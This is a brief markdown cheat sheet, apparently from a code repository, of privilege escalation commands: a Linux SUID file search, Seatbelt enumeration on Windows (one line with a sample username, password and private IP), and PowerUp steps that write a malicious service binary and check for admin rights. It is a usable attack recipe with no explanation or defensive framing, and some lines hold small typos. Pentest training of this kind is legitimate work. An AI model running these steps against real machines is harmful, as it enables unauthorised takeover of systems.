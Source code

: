 # Privilege Escalation
## Linux
### Search for files with SETUID
```bash
find / -perm -4000 -ls 2>/dev/null
```

## Windows
### Seatbelt
#### Simple Checks
##### AV Checks
```powershell
seatbelt.exe -q AntiVirus
```
##### Installed Products
```powershell
seatbelt.exe -q InstalledProducts
```
##### TCP Connections
```powershell
seatbelt.exe -q TcpConnections
```
##### System Group Checks
```powershell
seatbelt.exe -q group=system
```
##### Remote System Checks
```powershell
seatbelt.exe =q AppLocker computername=10.10.10.15 -user=hitbox\bgreen -password=Password1
```

### PowerUP
#### Import Module
```powershell
Import-Module .\PowerUp.ps1
```
#### Run All Checks 
```powershell
Invoke-AllChecks
```
#### Exploit the Vulnerability
```powershell
Write-ServiceBinary -ServiceName 'Video Stream' -Path 'C:\Program Files\Video Stream\1337.exe"
```
##### Verify the Exploit worked
```powershell
net localgroup administrator
```